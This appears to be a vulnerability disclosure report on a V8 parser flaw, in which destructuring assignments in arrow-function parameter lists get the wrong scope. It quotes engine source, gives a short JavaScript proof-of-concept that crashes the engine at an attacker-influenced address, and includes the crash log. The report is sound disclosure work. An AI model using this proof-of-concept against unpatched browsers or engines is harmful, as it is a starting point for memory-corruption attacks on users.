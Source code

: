 When the parser parses the parameter list of an arrow function contaning destructuring assignments, it can't distinguish whether the assignments will be actually in the parameter list or just assignments until it meets a "=>" token. So it first assigns the destructuring assignments to the outer scope, and fixs the scope when it meets the "=>" token.

Here's the methods used to fix the scope (https://cs.chromium.org/chromium/src/v8/src/parsing/parser-base.h?rcl=787ecbb389741d2b76131f9fa526374a0dbfcff6&l=407).

    void RewindDestructuringAssignments(int pos) {
      destructuring_assignments_to_rewrite_.Rewind(pos);
    }

    void SetDestructuringAssignmentsScope(int pos, Scope* scope) {
      for (int i = pos; i < destructuring_assignments_to_rewrite_.length();
           ++i) {
        destructuring_assignments_to_rewrite_[i]->set_scope(scope);
      }
    }

Since the SetDestructuringAssignmentsScope method changes the scope from "pos" to the end of the list, it needs to call the RewindDestructuringAssignments method after fixing the scope. But the RewindDestructuringAssignments method is only called when the arrow function's body starts with a "{" token (https://cs.chromium.org/chromium/src/v8/src/parsing/parser-base.h?rcl=787ecbb389741d2b76131f9fa526374a0dbfcff6&l=4418).

So it can't properly handle the following case where a destructuring assignment expression containing a single line arrow function. It will set the scope of the inner destructuring assignments to the outer arrow function's scope.

PoC:
(({a = (async ({b = {a = c} = {
    a: 0x1234
}}) => 1)({})}, c) => 1)({});

Log:
Received signal 10 BUS_ADRERR 12340000001f

==== C stack trace ===============================

 [0x00010edde85e]
 [0x7fff53e54f5a]
 [0x000000000000]
 [0x7eb48331b6d8]
 [0x7eb48331b6d8]
[end of stack trace]
Bus error: 10

This bug is subject to a 90 day disclosure deadline. After 90 days elapse
or a patch has been made broadly available, the bug report will become
visible to the public.